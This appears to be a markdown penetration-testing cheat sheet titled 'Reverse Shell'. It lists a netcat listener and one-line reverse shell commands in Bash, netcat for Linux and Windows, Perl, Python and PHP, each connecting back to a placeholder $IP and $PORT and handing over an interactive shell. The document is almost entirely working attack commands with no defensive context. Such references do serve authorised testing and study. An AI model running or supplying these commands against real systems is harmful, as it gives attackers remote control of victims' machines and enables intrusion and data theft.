 # Reverse Shell

- [Reverse Shell](#reverse-shell)
  - [Listner](#listner)
  - [Bash](#bash)
  - [Netcat](#netcat)
    - [Linux](#linux)
    - [Windows](#windows)
  - [Perl](#perl)
  - [Python](#python)
  - [PHP](#php)

## Listner

---
> nc -nvlp $PORt

## Bash

---
> bash -i >& /dev/tcp/$IP/$PORT 0>&1

## Netcat

---
### Linux

> nc -nv $IP $PORT -e /bin/bash

### Windows

> nc.exe -nv $IP $PORT -e cmd

## Perl

---
> perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S ,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec(" /bin/bash -i");};'

## Python

---
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## PHP

---
> php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
